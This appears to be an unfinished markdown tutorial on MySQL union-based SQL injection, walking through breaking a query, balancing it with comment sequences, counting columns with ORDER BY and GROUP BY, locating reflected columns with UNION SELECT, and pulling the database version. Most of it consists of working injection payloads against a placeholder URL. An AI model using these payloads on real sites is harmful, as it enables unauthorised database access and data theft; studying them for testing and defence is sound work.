 # MySQL SQL Injection

#### Steps to perform SQL Injection.
1. Break the Query.
2. Fix the Query.
3. Get the total number of columns.
4. Get the vulnerable columns.
5. Exploit. (get the data from database)


### 1) Break the Query.
- let's say we have target https://website.com/product/id?=23 now, we want to test this URL for SQL Injection. So, as described in steps above, the very first thing we've to do is **Break the Query**.
- So, for breaking the query, we can use ``` ', ", `, . ```
 - example,
   - https://website.com/product/id?=23'
   - https://website.com/product/id?=23"
- after adding the ``` ', ", `, .```, you'll see error messages like, `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1` or maybe unusual behaviour in target website.

### 2) Fix the Query.
- after breaking the query, we've to fix the query. So, we can **balance** the **SQL QUERY**.
- So, for that we can use ``` --, --+, -- -, #, --#, ., -, /*, '), "), `), ')), ")),`)), ') -- ```
- example,
   - https://website.com/product/id?=23' --
   - https://website.com/product/id?=23' --+
   - https://website.com/product/id?=23' -- -
   - https://website.com/product/id?=23' #
   - https://website.com/product/id?=23' --#
   - https://website.com/product/id?=23' /*
   - https://website.com/product/id?=.23' --+ (see the `.`)
   - https://website.com/product/id?=-23' --+ (see the `-`)
   - https://website.com/product/id?=-23') --+ (see the `-`)
   - etc. (*there are many ways to fix the query. at the time of wrting this, I forgot some of them. I'll add them If I came to know about it. till then, add your own variations to it.*)
 
### 3) Get the total number of columns.
- after balancing/fixing the query, we need to solve this question. **how many columns are there ?**
- So, to check the columns we can use ``` ORDER BY, GROUP BY, PROCEDURE ANALYSE() ```
- example,
   - https://website.com/product/id?=23' ORDER BY 5-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 4-- ERROR.
   - https://website.com/product/id?=23' ORDER BY 3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4,5-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3,4-- ERROR.
   - https://website.com/product/id?=23' GROUP BY 1,2,3-- NO ERROR.
     - So, website has 3 columns.
   - https://website.com/product/id?=23' PROCEDURE ANALYSE()-- ERROR. (In this method, the website will act wiredly. So, keep closer look on website. ex. list random lists, paragraphs, errors, or something else, etc.)
     - Look at the website, if website lists random things let's say some 3 dots or whatever. then, confirm that, website has 3 columns.

### 4) Get the vulnerable columns.
- after getting the total number of columns, now it's time to find vulnerable columns, where we can try to place our pyloads strings to get the data from the database.
- So, to get the vulnerable columns, we can use ```UNION SELECT NULL or INT ```.
- add the NULL or INT value, total number of columns we get.
- example,
   - https://website.com/product/id?=23' UNION SELECT 1,2,3-- Because, we got the total 3 columns.
   - https://website.com/product/id?=23' UNION SELECT NULL,NULL,NULL--
- now, in the case of `https://website.com/product/id?=23' UNION SELECT 1,2,3--`, you'll see a numbers been reflacted on the website. ex. 2,3. So, columns 2 & 3 is vulnerable.
- in case of NULL, we've to replace NULL by adding strings in each NULL value to get the vulnerable columns.
- example.
  - https://website.com/product/id?=23' UNION SELECT 'findVulClmn',NULL,NULL-- See, if `findVulClmn` been reflacted on website or not. if yes, then, congratulations, we've found vulnerable columns.
  - if not, go ahead and try, https://website.com/product/id?=23' UNION SELECT NULL, 'findVulClmn',NULL--.
  - try until you find some string being reflacted on website.

5. Exploit. (get the data from database).
- So, after getting vulnerable columns, we can get the data from database by using various payloads.
- example : https://website.com/product/id?=23' UNION SELECT NULL,@@version,NULL-- to get the database version.


**Note:** not completed. to be continued...
